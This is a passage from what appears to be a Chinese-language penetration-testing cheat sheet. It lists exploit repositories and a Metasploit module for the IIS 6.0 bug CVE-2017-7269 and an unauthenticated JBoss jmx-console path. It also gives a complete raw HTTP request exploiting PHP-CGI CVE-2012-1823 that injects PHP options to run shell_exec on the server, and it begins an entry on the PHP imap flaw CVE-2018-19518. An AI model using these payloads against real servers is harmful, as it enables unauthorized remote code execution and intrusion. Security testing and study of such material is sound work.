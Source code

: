 **CVE-2017-7269** IIS6.0 RCE
- POC | Payload | exp
    - [zcgonvh/cve-2017-7269](https://github.com/zcgonvh/cve-2017-7269)
    - [zcgonvh/cve-2017-7269-tool](https://github.com/zcgonvh/cve-2017-7269-tool)
    - [lcatro/CVE-2017-7269-Echo-PoC](https://github.com/lcatro/CVE-2017-7269-Echo-PoC)
    - [edwardz246003/IIS_exploit](https://github.com/edwardz246003/IIS_exploit)

- MSF 模块

    - `use exploit/windows/iis/cve-2017-7269`

---

## JBOSS
**工具**
- [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss)

**未授权访问漏洞**

- `http://<ip>:8080/jmx-console`

## PHP
**CVE-2012-1823 PHPCGI 远程代码执行漏洞**
- 影响版本

    - php < 5.3.12 or php < 5.4.2

- 文章
    - [PHP-CGI远程代码执行漏洞 (CVE-2012-1823) 分析](https://paper.seebug.org/297/)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/php/CVE-2012-1823/

    `http://your-ip:8080/index.php?-s` 即爆出源码

    发送如下数据包,可见 Body 中的代码已被执行：
    ```
    POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
    Host: example.com
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
    ```

**CVE-2018-19518 PHP imap 远程命令执行漏洞**
- 简介

    php imap 扩展用于在 PHP 中执行邮件收发操作。其 imap_open 函数会调用 rsh 来连接远程 shell,而 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能 (也就是说,在 debian 系列系统中,执行 rsh 命令实际执行的是 ssh 命令) 。
